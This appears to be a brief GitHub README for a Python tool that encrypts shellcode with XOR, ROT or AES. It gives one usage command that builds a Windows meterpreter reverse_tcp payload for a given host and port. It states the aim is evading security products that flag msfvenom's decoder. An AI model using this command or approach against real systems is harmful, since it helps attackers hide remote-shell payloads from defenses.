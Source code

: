 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

That is mainly for:
msfvenom builtin decoder on encoded shellcode is usually a red flag for any security solution.

1 - using with a shellcode runner with decryption routine implemented.
2 - DEP with ROP decode and etc..
